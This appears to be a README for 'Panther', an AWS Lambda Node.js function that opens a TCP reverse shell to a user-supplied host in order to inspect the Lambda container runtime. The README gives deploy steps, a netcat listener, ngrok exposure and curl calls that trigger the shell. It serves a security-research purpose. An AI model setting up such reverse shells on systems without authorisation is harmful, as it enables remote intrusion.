# Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js / NPM](https://nodejs.org/en/download/)
* [Serverless Framework](https://serverless.com/framework/docs/providers/aws/guide/installation#installing-the-serverless-framework)

## Getting Started

```bash
cd /PATH/TO/panther
aws configure
npm install
serverless deploy
```

Record the API key provided in the output:

```bash
Serverless: Stack update finished...
Service Information
service: panther
stage: dev
region: us-east-1
stack: panther-dev
resources: 14
api keys:
  panther: YOUR_API_KEY
```

## Usage

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Navigate to your function, supplying your connection details and API key:

```bash
curl 'https://YOUR_API_GATEWAY_ID.execute-api.us-east-1.amazonaws.com/dev/api/Panther?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'X-API-Key: YOUR_API_KEY'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file, though it cannot be extended past 30 seconds as it is attached to an API Gateway.

## Teardown

```bash
serverless remove
```

## Running Locally

```bash
npm start
```

## Testing Locally

```bash
curl 'http://localhost:3000/api/Panther?host=0.tcp.ngrok.io&port=17105?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'x-api-key: offlineKey'
```

## Linting

```bash
go get -u golang.org/x/lint/golint
npm run lint
```

## Serverless AWS NodeJS Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template aws-nodejs --path panther
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/aws/) for more information.
